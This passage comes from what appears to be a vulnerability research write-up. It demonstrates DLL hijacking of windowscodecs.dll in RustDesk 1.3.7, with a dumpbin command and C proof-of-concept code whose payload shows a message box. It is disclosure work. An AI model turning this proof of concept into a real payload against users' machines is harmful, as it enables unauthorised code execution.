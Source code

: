 By loading `kernel32.dll` into it's memory space, an application gains access to all the functions this DLL exports. 

This behavior explains our issue with `windowscodecs.dll`: RustDesk is trying to access a specific function that `windowscodecs.dll` exports. Since our malicious DLL does not export any functions, the application simply crashes when trying to call it.

### Extending The PoC

First, we need to examine the imports of RustDesk to determine what function (or functionS ?) it tries to call from `windowscodecs.dll`. This following command does the trick:

```powershell
dumpbin /imports "C:\Users\std\Documents\Vulnerability Research\RustDesk\64bit\rustdesk-1.3.7-x86_64.exe"
```

![](assets/attachment/8298c339507022da165b8598d219175e.png)

Fortunately, RustDesk only attempts to call a single function called `WICConvertBitmapSource`. With that in mind, I updated the PoC code as follows:

```c
/*

    Author:             Arthur Minasyan (B0lg0r0v)
    Date:               29.01.2025
    Description:        PoC for DLL Injection in 32 & 64-Bit PE of RustDesk
    Vulnerable DLL:     windowscodecs.dll

*/
#include <windows.h>


// This function is being exposed because RustDesk needs it.
extern __declspec(dllexport) void WICConvertBitmapSource() {

	// we do nothing at all
}

VOID MsgBoxPayload() {

    // Creating a semaphore for execution control
    HANDLE hSemaphore = CreateSemaphoreA(NULL, 10, 10, "Yolo");

    if (hSemaphore != NULL && GetLastError() == ERROR_ALREADY_EXISTS) {

        // Do nothing
    } else {
    
        // The actual payload
        MessageBoxA(NULL, "DLL Injection Successfully performed!", "DLL Injection", MB_OK | MB_ICONINFORMATION | MB_TOPMOST);
    
    }

}
```